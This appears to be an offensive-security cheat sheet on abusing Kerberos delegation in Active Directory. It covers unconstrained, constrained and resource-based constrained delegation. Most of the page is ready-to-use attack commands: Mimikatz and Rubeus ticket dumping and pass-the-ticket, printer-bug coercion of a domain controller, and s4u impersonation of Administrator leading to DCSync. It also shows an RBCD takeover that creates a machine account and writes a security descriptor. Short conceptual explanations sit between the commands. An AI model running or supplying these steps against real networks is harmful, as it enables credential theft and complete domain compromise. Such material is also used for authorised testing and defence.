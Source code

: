 # Delegation & Resource-based Delegation

## <mark style="color:red;">Unconstrained Delegation</mark>

{% embed url="https://resources.infosecinstitute.com/topic/active-directory-series-unconstrained-delegation" %}

#### <mark style="color:green;">Unrestricted Kerberos delegation is a privilege that can be assigned to a domain computer or a user. Usually, this privilege is given to computers  running services like IIS, MSSQL, etc. Those services usually require access to some back-end database (or some other server), so it can read/modify the database on the authenticated user's behalf.</mark>

When a user authenticates to a computer that has unrestricted Kerberos delegation privilege turned on, authenticated user's TGT ticket gets saved to that computer's memory. The reason TGTs get cached in memory is so the computer (with delegation rights) can impersonate the authenticated user as and when required for accessing any other services on that user's behalf. Essentially this looks like so:&#x20;

<mark style="color:green;">User ---> authenticates to ---> IIS server ---> authenticates on behalf of the user ---> DB server</mark>

```powershell
# get tickets
privilege::debug sekurlsa::tickets /export sekurlsa::tickets /export
Rubeus dump /service:krbtgt /nowrap
Rubeus dump /luid:0xdeadbeef /nowrap


# get unconstrained machines
Get-NetComputer -Unconstrained
Get-DomainComputer -Unconstrained -Properties DnsHostName
Get-ADComputer -Filter {TrustedForDelegation -eq $true -and primarygroupid -eq 515} -Properties trustedfordelegation,serviceprincipalname,description
```

Unconstrained Delegation can be set on a _frontend service_ (e.g., an IIS web server) to allow it to delegate on behalf of a user to _any service in the domain_ (towards a _backend service_, such as an MSSQL database).

<mark style="color:green;">DACL UAC property:</mark> <mark style="color:green;"></mark><mark style="color:green;">`TrustedForDelegation`</mark><mark style="color:green;">.</mark>

### <mark style="color:orange;">Mimikatz</mark>

{% embed url="https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-unrestricted-kerberos-delegation" %}

```
sekurlsa::tickets /export
kerberos::ptt c:\path\to\ticket.kirbi
```

### <mark style="color:orange;">Rubeus</mark>

```
.\Rubeus.exe triage
.\Rubeus.exe dump /luid:0x5379f2 /nowrap
.\Rubeus.exe ptt /ticket:doIFSDCC[...]
```

We can also gain the hash for a domain controller machine account, if that DC is vulnerable to the printer bug. If we do this successfully, we can DCSync the domain controller (see below) to completely compromise the current domain.

On the server with Unconstrained Delegation, monitor for new tickets with Rubeus.

```
.\Rubeus.exe monitor /interval:5 /nowrap
```

From attacking machine, entice the Domain Controller to connect using the printer bug. Binary from [here](https://github.com/leechristensen/SpoolSample).

```powershell
.\MS-RPRN.exe \\dc.targetdomain.com \\unconstrained-server.targetdomain.com
```

The TGT for the machine account of the DC should come in in the first session. We can pass this ticket into our current session to gain DCSync privileges (see below).

```powershell
.\Rubeus.exe ptt /ticket:doIFxTCCBc...
```

## <mark style="color:red;">Constrained Delegation</mark>

```powershell
# get tickets
privilege::debug sekurlsa::tickets /export sekurlsa::tickets /export
Rubeus dump /service:krbtgt /nowrap
Rubeus dump /luid:0xdeadbeef /nowrap

# get constrained delegation machines
Get-DomainComputer -TrustedToAuth -Properties DnsHostName, MSDS-AllowedToDelegateTo
MATCH (c:Computer), (t:Computer), p=((c)-[:AllowedToDelegate]->(t)) RETURN p
MATCH (u:User {owned:true}), (c:Computer {name: "<MYTARGET.FQDN>"}), p=shortestPath((u)-[*1..]->(c)) RETURN p
```

#### <mark style="color:green;">Constrained delegation can be set on the</mark> <mark style="color:green;"></mark>_<mark style="color:green;">front-end server</mark>_ <mark style="color:green;"></mark><mark style="color:green;">(e.g. IIS) to allow it to delegate to</mark> <mark style="color:green;"></mark>_<mark style="color:green;">only selected back-end services</mark>_ <mark style="color:green;"></mark><mark style="color:green;">(e.g. MSSQL) on behalf of the user.</mark>

#### <mark style="color:orange;">DACL UAC property: TrustedToAuthForDelegation.</mark>&#x20;

This allows `s4u2self`, i.e. requesting a TGS on behalf of _anyone_ to oneself, using just the NTLM password hash. This effectively allows the service to impersonate other users in the domain with just their hash, and is useful in situations where Kerberos isn’t used between the user and frontend.

<mark style="color:orange;">DACL Property:</mark> <mark style="color:orange;"></mark><mark style="color:orange;">`msDS-AllowedToDelegateTo`</mark>.&#x20;

This property contains the SPNs it is allowed to use `s4u2proxy` on, i.e. requesting a forwardable TGS for that server based on an existing TGS (often the one gained from using `s4u2self`). This effectively defines the backend services that constrained delegation is allowed for.

{% hint style="info" %}
These properties do NOT have to exist together!&#x20;

If `s4u2proxy` is allowed without `s4u2self`, user interaction is required to get a valid TGS to the frontend service from a user, similar to unconstrained delegation.
{% endhint %}

### <mark style="color:orange;">Rubeus</mark>

In this case, we use Rubeus to automatically request a TGT and then a TGS with the `ldap` SPN to allow us to DCSync using a machine account.

```
# Get a TGT using the compromised service account with delegation set (not needed if you already have an active session or token as this user)
.\Rubeus.exe asktgt /user:svc_with_delegation /domain:targetdomain.com /rc4:2892D26CDF84D7A70E2EB3B9F05C425E

# Use s4u2self and s4u2proxy to impersonate the DA user to the allowed SPN
.\Rubeus.exe s4u /ticket:doIE+jCCBP... /impersonateuser:Administrator /msdsspn:time/dc /ptt

# Same as the two above steps, but access the LDAP service on the DC instead (for dcsync)
.\Rubeus.exe s4u /user:sa_with_delegation /impersonateuser:Administrator /msdsspn:time/dc /altservice:ldap /ptt /rc4:2892D26CDF84D7A70E2EB3B9F05C425E
```

### <mark style="color:orange;">Computer Account</mark>

If you have compromised a machine account or in other words you have a SYSTEM level privileges on a machine that is configured with constrained delegation, you can assume any identity in the AD domain and authenticate to services that the compromised machine is trusted to delegate to.

Using powerview, we can find target computers like so:

```
Get-NetComputer ws02 | select name, msds-allowedtodelegateto, useraccountcontrol | fl
Get-NetComputer ws02 | Select-Object -ExpandProperty msds-allowedtodelegateto | fl
```

impersonate the administrator account:

```powershell
[Reflection.Assembly]::LoadWithPartialName('System.IdentityModel') | out-null
$idToImpersonate = New-Object System.Security.Principal.WindowsIdentity @('administrator')
$idToImpersonate.Impersonate()
[System.Security.Principal.WindowsIdentity]::GetCurrent() | select name

ls \\dc01.offense.local\c$
```

## <mark style="color:red;">Resource-based constrained delegation  (RBCD)</mark> <a href="#resource-based-constrained-delegation" id="resource-based-constrained-delegation"></a>

{% embed url="https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution" %}

### <mark style="color:orange;">Kerberos Delegation vs Resource-based Kerberos Delegation</mark>

* <mark style="color:green;">In unconstrained and constrained Kerberos delegation, a computer/user is told what resources it can delegate authentications to.</mark>
* <mark style="color:green;">In resource based Kerberos delegation, computers (resources) specify who they trust and who can delegate authentications to them.</mark>

```
rubeus.exe hash /password:<computer_pass> /user:<computer> /domain:<domain>
getST.py -spn host/<dc_fqdn> '<domain>/<computer_account>:<computer_pass>' -impersonate Administrator --dc-ip <dc_ip>

rubeus.exe s4u /user:<fake_computer$> /aes256:<AES 256 hash> /impersonateuser:administrator /msdsspn:cifs/<victim.domain.local> /altservice:krbtgt,cifs,host,http,winrm,RPCSS,wsman,ldap /domain:domain.local /ptt
```

**Resource-Based Constrained Delegation (RBCD) configures the **_**back-end server**_** (e.g. MSSQL) to allow **_**only selected front-end services**_** (e.g. IIS) to delegate on behalf of the user. This makes it easier for specific server administrators to configure delegation, without requiring domain admin privileges.**

<mark style="color:orange;">DACL Property:</mark> <mark style="color:orange;"></mark><mark style="color:orange;">`msDS-AllowedToActOnBehalfOfOtherIdentity`</mark><mark style="color:orange;">.</mark>

In this scenario, `s4u2self` and `s4u2proxy` are used as above to request a forwardable ticket on behalf of the user. However, with RBCD, the KDC checks if the SPN for the requesting service (i.e., the _frontend service_) is present in the `msDS-AllowedToActOnBehalfOfOtherIdentity` property of the _backend service_. This means that the _frontend service_ needs to have an SPN set. Thus, attacks against RBCD have to be performed from either a service account with SPN or a machine account.

### <mark style="color:orange;">**Exploitation**</mark>

#### <mark style="color:green;">If we compromise a</mark> <mark style="color:green;"></mark>_<mark style="color:green;">frontend service</mark>_ <mark style="color:green;"></mark><mark style="color:green;">that appears in the RBCD property of a</mark> <mark style="color:green;"></mark>_<mark style="color:green;">backend service</mark>_<mark style="color:green;">, exploitation is the same as with constrained delegation above. This is however not too common.</mark>

A more often-seen attack to RBCD is when we have `GenericWrite`, `GenericAll`, `WriteProperty`, or `WriteDACL` permissions to a computer object in the domain. This means we can write the `msDS-AllowedToActOnBehalfOfOtherIdentity` property on this machine account to add a controlled SPN or machine account to be trusted for delegation. We can even create a new machine account and add it. This allows us to compromise the target machine in the context of any user, as with constrained delegation.

```powershell
# Create a new machine account using PowerMad
import-module powermad
New-MachineAccount -MachineAccount NewMachine -Password $(ConvertTo-SecureString 'P4ssword123!' -AsPlainText -Force)

# Get SID of our machine account and bake raw security descriptor for msDS-AllowedtoActOnBehalfOfOtherIdentity property on target
$sid = Get-DomainComputer -Identity NewMachine -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($sid))"
$SDbytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDbytes,0)

# Use PowerView to use our GenericWrite (or similar) priv to apply this SD to the target
Get-DomainComputer -Identity TargetSrv | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

# Finally, use Rubeus to exploit RBCD to get a TGS as admin on the target
.\Rubeus.exe s4u /user:NewMachine$ /rc4:A9A70FD4DF48FBFAB37E257CFA953312 /impersonateuser:Administrator /msdsspn:CIFS/TargetSrv.targetdomain.com /ptt
```
